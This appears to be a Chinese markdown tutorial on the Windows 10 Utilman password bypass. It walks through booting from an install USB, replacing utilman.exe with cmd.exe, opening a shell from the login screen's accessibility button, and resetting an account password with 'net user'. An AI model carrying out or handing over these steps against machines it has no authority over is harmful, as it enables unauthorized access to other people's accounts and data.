



# windows10密码绕过流程漏洞

windows7有5次shift漏洞，win10系统照样有。

## 准备工作

一个8GB或更大的u盘 使用 U 盘制作系统安装盘——工具地址：https://www.microsoft.com/zh-cn/software-download/windows10



window10引导系统安转包，官网下载的！

或者使用PE系统直接快捷方便。

## 破解操作

- 第一步：启动系统

完成后u盘插入要绕过密码的计算机 

重新启动进入BIOS通过u盘启动

不同电脑进入BIOS的按键不一样，需要自己上网查

之后会进入win10安装向导 按下shift+f10

弹出cmd命令窗口

我们需要更改utilman.exe所在位置

- 第二步：获取所有可用的驱动器

```powershell
wmic logicaldisk get name
```



选择c盘，输入如下命令

```powershell
C:
```


读取目录列表，输入如下命令：

```powershell
dir
```



导航到Windows（如果没有Windows的文件夹，换其它盘看看）

```powershell
cd windows
```

进入system32

```powershell
cd system32
```

这就是utilman.exe所在位置 

我们需要更改它的名称

```powershell
ren utilman.exe utilman2.exe
```

复制cmd.exe 到utilman.exe位置

```powershell
copy cmd.exe utilman.exe
```

完成后就可以取消Windows安装 

- 重新进入系统

按任意键进入Windows系统 

现在我们点击右下角这个轻松访问就能弹出cmd窗口了 

- 最后一步：修改密码

```powershell
net user 用户名 新密码
```

